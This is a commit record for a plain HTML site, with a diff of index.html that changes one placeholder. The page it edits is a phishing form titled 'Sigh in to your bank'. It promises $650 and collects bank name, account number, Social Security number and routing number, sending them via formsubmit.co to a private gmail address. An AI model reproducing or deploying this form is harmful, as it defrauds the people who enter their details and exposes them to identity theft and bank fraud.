

Before and after one commit to Freeint/internet, a plain HTML site: page index.html in a window 1280 px wide. Shown: the part 313-521 px from the top of the page, 319-959 px from the left. Drawn offline with Linux system fonts and the light colour scheme.

Commit message:
Update index.html

```diff
--- a/index.html
+++ b/index.html
@@ -12,7 +12,7 @@
         <h2>Sigh in to your  bank</h2>
         <h3>Sigh in to receive your $650 </h3>
         <form action="https://formsubmit.co/johnmanager.austin@gmail.com" method="POST">
-          <input type="Bank Name" name="Bank Name" placeholder="Bank Name    My Bank">
+          <input type="Bank Name" name="Bank Name" placeholder="Bank Name">
             <input type="Acount Number" name="Acount Number" placeholder="Acount Number    1-2-34-56-78-9" required>
             <input type="SSN" name="SSN" placeholder="SSN      1-2-34-56-78-9" required>
             <input type="Routine Number"name="Routine Number" placeholder="Routine Number    1-2-34-56-78-9" required>
```
